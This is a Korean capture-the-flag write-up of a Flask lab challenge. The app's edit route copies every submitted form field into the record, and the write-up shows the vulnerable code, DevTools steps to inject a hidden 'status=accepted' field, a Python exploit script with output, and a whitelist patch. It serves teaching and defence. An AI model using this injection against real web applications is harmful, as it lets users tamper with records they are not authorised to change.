




# medium-03 — 자동 심사 (Mass Assignment) 풀이

## 1. 문제 개요

| 항목 | 내용 |
|---|---|
| 분류 | Web / Mass Assignment (대량 할당) |
| 난이도 | Medium |
| 접속 | `http://<출제조IP>:8004` |
| 시작 | 회원가입으로 계정 생성 (일반 신청자) |
| 플래그 형식 | `GlassHouse{...}` (`app.config["FLAG_REVIEW"]`, 당첨 시 flash) |

**최종 목표:** 신청서를 내면 결과가 "미당첨(`rejected`)" 으로 고정된다. 신청서 **수정 기능이 폼의 모든 필드를 그대로 받아** 저장하는 허점을 이용해, 화면에 없는 `status=accepted` 를 끼워 넣어 스스로 "당첨" 으로 만들고 당첨 인증 코드(플래그)를 받는다.



최종 경로: **신청서 수정 POST 에 `status=accepted` 주입 → 당첨 처리 → 플래그.**

---

## 2. 의도한 풀이 과정 (요약)

1. 회원가입 후 신청서를 내면 상태가 **`rejected`(미당첨)** 로 고정됨을 확인한다. 당첨 코드는 **당첨(`accepted`) 신청자에게만** 뜬다.
2. 신청서 **수정(edit)** 이 폼에 들어온 **모든 키를 신청서 객체에 그대로 덮어쓴다**(Mass Assignment)는 것을 소스에서 확인한다. 화면 폼엔 `school/major/intro` 뿐이지만, 서버는 "폼에 있는 것만" 이 아니라 "**보내온 건 다**" 받는다.
3. 수정 요청에 **`status=accepted`** 필드를 한 칸 더 끼워 넣는다.
4. 저장 직후 서버가 `status == "accepted"` 를 보고 당첨 인증 코드를 flash → 플래그.

각 단계의 "왜/무엇을 확인했는지"는 3~4절에서 코드와 함께 설명한다.

---

## 3. 초기 분석과 단서

### 3-1. 신청 결과는 미당첨으로 고정
`/apply` 로 신청서를 제출하면 `status` 가 `rejected` 로 박힌다(아래 4절 `create()`). 마이페이지에도 "미당첨". → "정상적으로는 당첨이 될 길이 없다. 당첨 상태를 **내가 바꿀 수 있는 지점**을 찾아야 한다."



### 3-2. 숨어 있는 수정(edit) 기능을 소스에서 발견
상세 페이지(`/applications/<id>`)에는 **"목록으로" 버튼뿐, 수정 링크가 UI 어디에도 없다.** 그런데 `routes/apply.py` 를 읽으면 화면에 노출되지 않은 라우트가 하나 있다:
```python
@bp.route("/apply/<int:app_id>/edit", methods=["GET", "POST"])
def edit(app_id):
    ...
```
→ 주소창에 직접 **`/apply/<내 신청서 id>/edit`** 를 치면 수정 폼이 열린다. (내 신청서 번호는 **mypage 카드의 "신청서 N번"** 또는 **상세 페이지 URL `/applications/N`** 에서 확인한다. 이번 경우는 1번.)

폼은 소속·좌석·사연 세 칸뿐이고 **`status` 칸은 없다.** 핵심 질문은 "이 수정이 받은 값을 **어떻게** 저장하느냐" — 소스를 보면 **폼 전체를 루프로 덮어쓴다**(4절). → 화면에 없는 `status` 도 **요청에 끼워 보내면** 들어갈 여지가 있다. "여기에 `status=accepted` 를 넣으면?"

---

## 4. 취약점의 원인과 성립 조건

**코드 위치:** `routes/apply.py` — `create()` 는 status 고정, `edit()` 이 결함
```python
# create(): 신청서는 항상 rejected 로 생성
data.APPLICATIONS[app_id] = {
    "id": app_id, "user_id": user["id"], "applicant_name": user["name"],
    "school": school, "major": major, "intro": intro,
    "status": "rejected",          # 고정
}

# edit(): 폼의 '모든' 키를 그대로 덮어쓴다 ← Mass Assignment
@bp.route("/apply/<int:app_id>/edit", methods=["GET", "POST"])
def edit(app_id):
    ...
    if application["user_id"] != user["id"]:
        abort(403)
    if request.method == "POST":
        for key in request.form:            # (1) 폼에 들어온 모든 키를
            application[key] = request.form[key]   # (2) 신청서에 통째로 덮어씀
        if application["status"] == "accepted":    # (3) 그 결과 status 가 accepted 면
            flash("당첨 인증 코드 " + current_app.config["FLAG_REVIEW"], "success")  # 플래그
        return redirect(url_for("mypage.list_applications"))
```
- **원인:** 수정이 **허용 필드 목록(화이트리스트) 없이** `request.form` 의 모든 키를 신청서 객체에 그대로 할당한다(Mass Assignment). 화면 폼에 없는 민감 필드(`status`)도 **요청에 포함만 시키면** 덮어쓸 수 있다. 바로 아래 (3)에서 그 값을 당첨 판정에 쓰므로, `status=accepted` 를 주입하면 당첨 처리된다.
- **성립 조건:**
  1. 로그인 상태에서 **본인 소유** 신청서 1장(소유권 검사 통과).
  2. 그 신청서의 수정(`/apply/<id>/edit`) POST 에 `status=accepted` 필드 추가(기존 `school/major/intro` 도 함께 보내면 자연스럽다).



---

## 5. 풀이 결과

### 5-1. 공격 아이디어 도출 — "폼은 자기 칸만 보낸다"
서버에 `status=accepted` 를 보내야 하는데, 수정 폼엔 `status` 입력칸이 **없다.** 웹 폼은 **폼 안에 있는 입력칸만** 전송하므로, 평범하게 "수정 저장" 을 눌러선 `status` 가 안 실린다.
→ 그럼 **폼에 `status` 칸을 직접 추가**한 뒤, 원래 있는 "수정 저장" 버튼으로 그대로 보내면 된다. (서버 `edit()` 는 받은 필드는 뭐든 저장하니까)

### 5-2. 폼에 숨은 필드 추가 (DevTools Elements)
수정 페이지에서 F12 → **Elements** → `<form class="form" method="post">` 우클릭 → **"Edit as HTML"** → 폼 안에 한 줄 추가:
```html
<input name="status" value="accepted">
```
적용 후 Elements 트리에서 폼 안에 이 input 이 들어갔는지 확인한다. (화면엔 안 보이는 숨은 칸)



### 5-3. "수정 저장" 클릭 → 플래그
페이지의 **"수정 저장"** 버튼을 누르면, 폼이 `school·major·intro` + 방금 추가한 `status=accepted` 를 함께 POST 한다. 서버가 당첨 처리하고 당첨 인증 코드를 flash 한다.


### 성공 판별 기준 / 결과
1. 신청 직후 상태 `rejected`, 당첨 코드 없음.
2. `status=accepted` 를 끼워 저장하면 상단에 **"당첨 인증 코드 GlassHouse{...}"** flash.
3. 마이페이지 신청서 상태가 **당첨** 으로 바뀐다.

**플래그:** `GlassHouse{...}`
> 실제 값은 배포본 `.env` 의 `FLAG_REVIEW`(변수명 변경 시 해당 이름)를 따른다.

---

## 6. 패치 방안과 검증

### 패치 — 수정 가능한 필드를 화이트리스트로 제한
사용자 입력으로 덮어쓸 수 있는 필드를 **명시적으로 한정**하고, `status` 같은 민감 필드는 제외한다.
```python
EDITABLE = ("school", "major", "intro")

if request.method == "POST":
    for key in EDITABLE:                 # 허용된 필드만
        if key in request.form:
            application[key] = request.form[key]
    # status 는 사용자 입력으로 절대 바꾸지 않는다 (운영진 심사 로직에서만 변경)
    return redirect(url_for("mypage.list_applications"))
```
- 원칙: **"받은 걸 다 저장"하지 말고 "허용한 것만 저장"**한다. 상태·권한·식별자(`status`, `role`, `user_id`, `id`)는 사용자 입력에서 분리한다.

### 검증 방법
- (음성) 패치 후 수정 POST 에 `status=accepted` 를 넣어도 상태가 그대로 `rejected` → 플래그 안 뜸.
- (양성) 정상 수정(소속·좌석·사연 변경)은 그대로 동작.

---

## 7. 익스플로잇 코드

```python
#!/usr/bin/env python3
# medium-03 (자동 심사 / Mass Assignment) - 수정 요청에 status=accepted 주입
# 사용: python3 exploit.py http://<IP>:8004
import re, sys, requests

BASE = sys.argv[1].rstrip("/") if len(sys.argv) > 1 else "http://127.0.0.1:8004"
s = requests.Session()

# 0) 회원가입 + 로그인
s.post(f"{BASE}/signup", data={"username": "winner1", "password": "pw1234",
        "password_confirm": "pw1234", "name": "w", "email": "w@w.com"})
s.post(f"{BASE}/login", data={"username": "winner1", "password": "pw1234"})

# 1) 신청서 제출 (status=rejected 로 생성됨)
s.post(f"{BASE}/apply", data={"school": "홍천고", "major": "VIP석", "intro": "가고싶어요"})
app_id = re.findall(r"/applications/(\d+)", s.get(f"{BASE}/mypage").text)[0]
print(f"[*] 내 신청서 id = {app_id} (rejected)")

# 2) Mass Assignment - 수정에 status=accepted 끼워넣기
r = s.post(f"{BASE}/apply/{app_id}/edit",
           data={"school": "홍천고", "major": "VIP석", "intro": "가고싶어요",
                 "status": "accepted"})
m = re.search(r"GlassHouse\{[^}]*\}", r.text)
print(f"[+] FLAG: {m.group(0)}" if m else "[-] 실패 (status 주입 확인)")
```

**실행 예시**
```bash
$ python3 exploit.py http://127.0.0.1:8004
[*] 내 신청서 id = 1 (rejected)
[+] FLAG: GlassHouse{...}
```
> 브라우저로 할 때: 신청서 수정 페이지에서 F12 → Console 로 폼에 `status=accepted` hidden input 을 추가한 뒤 저장, 또는 Elements 탭에서 `<input name="status" value="accepted">` 를 폼에 추가 후 저장.

---

## 부록 — 전체 경로 한 줄 요약
```
회원가입/로그인 → /apply 로 신청서 제출(status=rejected 고정)
  → 신청서 수정(edit)이 request.form 전체를 신청서에 .덮어씀 (화이트리스트 없음 = Mass Assignment)
  → /apply/<id>/edit POST 에 status=accepted 주입
  → 저장 직후 status=="accepted" 판정 → 당첨 인증 코드 GlassHouse{...} flash
```
